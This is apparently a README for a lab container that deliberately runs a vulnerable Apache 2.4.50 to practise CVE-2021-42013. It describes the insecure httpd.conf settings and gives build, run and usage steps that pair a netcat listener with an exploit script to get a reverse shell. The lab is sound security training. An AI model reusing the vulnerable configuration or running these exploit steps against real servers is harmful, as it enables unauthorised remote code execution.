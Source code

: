 # Apache 2.4.50 - Path Traversal or Remote Code Execution
Vulnerable instance of Container is provided to get your hands dirty on [CVE-2021-42013](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-42013)

If CGI-BIN is enabled than, we can perform Remote Code Execution but not Path Traversal, so "icons" directory has been added under Alias section in httpd.conf for checking Path Traversal vulnerability.

# Vulnerable Configurations in httpd.conf
```
1. Enable CGI-BIN
2. Add "icons" directory in Alias section
3. <Directory>Require all granted</Directory>
```

# Lab for CVE-2021-42013
### Build
```
$ podman build -t cve-2021-42013 .
```
### Run
```
$ podman run -it --rm -p 8080:80 cve-2021-42013
```

# Usage  
###
Open one terminal and run 
```
nc -l 9000
``` 
###
Open a second terminal and run
```
$ ./50446.sh http://127.0.0.1:8080 <Your IP> 9000
```

